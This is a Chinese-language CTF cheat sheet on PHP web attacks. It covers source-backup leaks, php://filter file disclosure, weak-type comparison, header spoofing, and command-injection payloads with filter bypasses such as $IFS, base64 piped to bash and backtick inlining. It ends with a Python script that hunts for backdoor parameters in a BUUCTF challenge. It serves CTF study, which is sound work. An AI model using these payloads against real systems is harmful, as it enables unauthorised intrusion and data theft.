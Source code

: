 # PHP

* ## 基础

Robots.txt 查看robots协议规定的网站信息（对网站本身并无实质性影响）

备份源码泄露：

```
www.zip
www.tar.gz
index.php.bak
```

弱口令爆破：burp抓包后更改爆破点，加载字典进行爆破

X-Forward-For / Referer 伪造 --&gt; X-Forward-For 为最初发起请求的客户端的ip地址，Referer 为当前请求页面的来源页面地址

php弱类型对比（==），不涉及数据转换 --&gt; 0e123==0e456 （典型：md5碰撞）

php伪协议：

```
php://input  //通过post方法将原数据远程上传至服务器
php://filter //通过一些过滤将原数据进行一些操作后下载
?file=php://filter/read=convert.base64-encode/resource=flag.php
        //将flag.php内部源码进行base64编码后给file赋值
```

* ### 命令注入

HTML注入：

```
127.0.0.1;var_dump(scandir('/'));   //显示根目录下文件列表
127.0.0.1;file_get_contents(filename);  //获取文件内容
```

* #### Bypass

空格绕过 --&gt; 采用&lt;&gt;、/\*\*/、采用特殊变量$IFS

利用反斜杠

```
cat /flag ==> c\at /fl\ag
```

base64编码和解码

```
echo Y2F0IC9mbGFn|base64 -d|bash
```

过滤斜杠 --&gt;利用环境变量进行字符串截取

利用单引号绕过

拼接：

```
/?ip=127.0.0.1;a=g;cat$IFS$1fla$a.php
```

编码：

```
/?ip=1;echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|bash
```

内联：

    /?ip=127.0.0.1;cat$IFS$9`ls`

* #### 备份源码泄露

脚本扫描是否有shell

```
import os
import requests
import re
import time

def read_file(path, command):  #遍历文件找出所有可用的参数
    with open(path,encoding="utf-8") as file:
        f = file.read()
    params = {}
    pattern = re.compile("(?<=\$_GET\[').*?(?='\])")  #match get
    for name in pattern.findall( f ):
        params[name] = command

    data = {}
    pattern = re.compile("(?<=\$_POST\[').*?(?='\])")  #match get
    for name in pattern.findall( f ):
        data[name] = command
    return params, data

def url_explosion(url, path, command):   #确定有效的php文件
    params, data = read_file(path,command)
    try:
        print("Reading " + url + "\r", end='', flush = True)
        r = requests.session().post(url, data = data, params = params)
        if r.text.find("haha") != -1 :
            print(url,"\n")
            find_params(url, params, data)         

    except:
        print("\n" + url,"异常")
   
def find_params(url, params, data):   #确定最终的有效参数
    try:
        for pa in params.keys():
            temp = {pa:params[pa]}
            r = requests.session().post(url, params = temp)
            if r.text.find("haha") != -1 :
                print(pa)
                os.system("pause")
                
    except:
        print("error!\n")
    try:
        for da in data.items():
            temp = {da:data[da]}
            r = requests.session().post(url, data = temp)
            if r.text.find("haha") != -1 :
                print(da) 
                os.system("pause")
    except:
        print("error!\n")


rootdir = "C:\\CTF\\buuctf\\高明的黑客\\src"  #php文件存放地址
list = os.listdir(rootdir)
for i in range(0, len(list)):
    path = os.path.join(rootdir ,list[i])
    name = list[i].split('-2')[0]   #获取文件名
    url = "http://1e688c83-cf4c-4675-b569-6e227ff69914.node3.buuoj.cn/" + name
    url_explosion(url,path,"echo haha")  
```



